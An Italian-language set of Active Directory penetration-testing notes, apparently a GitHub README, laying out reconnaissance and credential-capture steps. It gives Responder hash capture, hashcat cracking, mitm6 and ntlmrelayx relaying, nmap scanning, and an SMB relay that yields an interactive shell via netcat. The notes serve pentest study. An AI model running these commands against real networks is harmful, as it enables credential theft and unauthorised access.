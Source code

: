 # AD Hacking Methodology

![adh](https://github.com/user-attachments/assets/80e4af10-5b2b-4179-b139-f8fd7dc51373)

*Notes on AD Pentest*

# FASE 1 - RECONNAISSANCE / ENUMERATION

## Primi passi

1. Eseguo ***Responder***, lasciando attivo affinché rimanga in ascolto del traffico, al fine di intercettare qualche *hash*

```bash
sudo responder -I <INTERFACE> -dwv
```

Se intercetto un hash, posso tentare di crackarlo con ***hashcat***

```bash
hashcat -m 5600 <hashes.txt> <WORDLIST.txt>
```

2. Per lo stesso scopo, tento un attacco ***mitm6* (che ha sempre la sua validità) per massimo 10 minuti**, eseguendo in due schede diverse

```bash
impacket-ntlmrelayx -6 -t ldaps://<IP> -wh fakewpad.<DOMAIN.local> -l <NOME_CARTELLA>
```

```bash
sudo mitm6 -d <DOMAIN.local>
```

3. Eseguo una scansione con ***nmap*** per identificare, dominio, porte, servizi ed eventuali vulnerabilità

```bash
nmap -T4 -p- -sC -sV -Pn <IP>
```

4. Se dalla scansione emerge la vulnerabilità di smb “*signed required but not enabled*", possiamo effettuare un ***smb relay attack***. Mettiamo in *off* le voci *smb* e *http* in /etc/responder/Responder.conf, creiamo un file TARGETS.txt con gli indirizzi IP delle macchine vulnerabili e poi eseguiamo in due schede diverse:

```bash
sudo responder -I <INTERFACE> -dwv
```

```bash
sudo impacket-ntlmrelayx -tf <TARGETS.txt> -smb2support
```

5. Se vogliamo una shell interattiva con l’attacco appena eseguito, aggiungiamo una “**-i**” al comando: riceveremo in output un’IP ed una porta a cui connetterci con ***netcat***
